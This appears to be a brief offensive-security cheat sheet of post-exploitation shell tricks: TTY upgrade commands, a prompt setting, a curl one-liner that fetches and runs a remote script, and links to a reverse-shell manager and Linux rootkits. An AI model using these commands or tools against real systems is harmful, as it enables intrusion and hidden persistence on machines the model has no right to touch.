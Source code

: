 
<h3>Commands:</h3>

<br />

- **Spawn TTY shell**: `/usr/bin/script -qc /bin/bash /dev/null`
> Note: This method shows yourself logged in.

<br />

- **Spawn Python TTY Shell**: `python -c 'import pty;pty.spawn("/bin/bash")'`
> Note: This method doesn't show yourself logged in.

<br />

- **Add PWD in bash**: `PS1='\u@\h:\w\$ '`

<br />

- **Run script from URL**: `source <(curl -s http://mywebsite.com/myscript.sh)`

<br />

<h3>External Links:</h3>

<br />

- **Multiple reverse shell sessions/clients manager**: https://github.com/WangYihang/Platypus

<br />

- **Simple LKM rootkit for Linux Kernels 2.6.x/3.x/4.x/5.x and ARM64**: https://github.com/m0nad/Diamorphine

<br />

- **Advanced LKM rootkit for Linux Kernels 2.6.x/3.x/4.x/5.x and ARM64**: https://github.com/f0rb1dd3n/Reptile

<br />
